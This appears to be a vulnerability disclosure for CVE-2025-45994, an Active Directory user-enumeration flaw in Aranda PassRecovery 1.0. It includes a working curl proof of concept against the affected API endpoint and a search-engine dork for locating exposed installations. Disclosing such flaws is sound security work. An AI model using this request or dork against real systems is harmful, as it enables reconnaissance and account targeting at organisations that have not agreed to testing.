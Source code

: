# *CVE-2025-45994: Enumeration users Active Directory in Aranda PassRecovery*

## Description
An issue in Aranda PassRecovery allows attackers to enumerate  
valid user accounts in Active Directory via sending a crafted POST  
request to /user/existdirectory/1.


## PoC
> 1.- To exploit the vulnerability, you must send a POST request with the Active Directory user to the endpoint: /APRAPI//api/v1/user/existdirectory/1 and it will respond whether it is valid or not.

```bash
curl -XPOST \
-H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36 Edg/134.0.3124.83' \
-d '"<user>"' -H 'Content-Type: application/json' -i https://<domain>/APRAPI//api/v1/user/existdirectory/1
```

## DuckDuckGo Dorking:
Link - [DuckDuckGo](https://duckduckgo.com/?q=%22Aranda+PassRecovery%22+intext%3A%22Aranda+PassRecovery%22+-site%3A.arandasoft.com&t=h_)
```
"Aranda PassRecovery" intext:"Aranda PassRecovery" -site:.arandasoft.com
```


## Vulnerability Type 
> User Enumeration - CWE 200


## Vendor of Product
> Aranda Software - [https://arandasoft.com](https://arandasoft.com/)


## Affected Product Code Base
> Aranda PassRecovery - Version 1.0

> URL spanish: https://web.archive.org/web/20250520233313/https://arandasoft.com/productos/service-management/password-recovery/

> URL english: https://arandasoft.com/en/productos/password-recovery/
